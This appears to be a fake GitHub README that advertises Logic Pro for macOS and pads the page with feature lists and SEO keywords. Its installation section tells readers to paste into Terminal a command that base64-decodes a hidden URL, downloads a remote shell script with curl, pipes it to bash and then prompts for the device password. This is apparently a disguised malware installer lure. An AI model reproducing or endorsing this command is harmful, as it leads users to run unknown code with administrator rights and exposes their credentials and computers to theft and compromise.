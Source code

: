 # 🎵 Logic Pro for macOS – Professional Music Production Studio  

## 📌 About Logic Pro  
Logic Pro is a world-class professional music production software for macOS, offering a complete toolkit for recording, editing, mixing, and mastering. Whether you're producing beats, composing orchestral arrangements, or mixing live recordings, Logic Pro provides everything you need in one sleek, powerful environment.  

With advanced features like multi-track recording, MIDI editing, virtual instruments, audio effects, and Dolby Atmos support, Logic Pro is trusted by musicians and producers worldwide. Its intuitive interface, seamless macOS integration, and massive sound library make it the perfect choice for both beginners and professionals.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![Logic Pro Screenshot 1](https://avatars.mds.yandex.net/i?id=f2f0191865c1ed094aa7c3ba2a828f71_l-5223638-images-thumbs&n=13)  
![Logic Pro Screenshot 2](https://frankfurt.apollo.olxcdn.com/v1/files/uzdsq4y9ualx1-KZ/image;s=1867x1167)  

---

## 🚀 Key Features  
- 🎼 **Full Production Suite** – Record, edit, and produce music with professional-grade tools.  
- 🎹 **MIDI & Audio Editing** – Precise control over notes, timing, and dynamics.  
- 🎧 **Massive Sound Library** – Thousands of instruments, loops, and samples.  
- 🎚 **Mixing & Mastering** – Advanced effects, automation, and surround sound mixing.  
- 🎤 **Live Recording** – Multi-track and punch-in recording with low latency.  
- 📡 **Dolby Atmos Support** – Create immersive 3D audio experiences.  
- 🎨 **User-Friendly Interface** – Clean, customizable, and macOS-optimized.  
- 🛠 **Plugin Support** – Use AU and third-party effects/instruments.  
- ⚡ **Optimized Performance** – Runs efficiently even with large projects.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 8 GB minimum (16 GB recommended)  
- **Storage:** 6 GB for installation, 72 GB for full sound library  
- **Others:** Internet connection for sound library download  

---

## 🔍 SEO Keywords  
logic pro mac · logic pro music production · mac music studio · logic pro x download · logic pro audio editing · macos daw · mac recording software · logic pro beats · logic pro midi · apple music production software · logic pro mixing · logic pro mastering · mac music creation · logic pro plugins
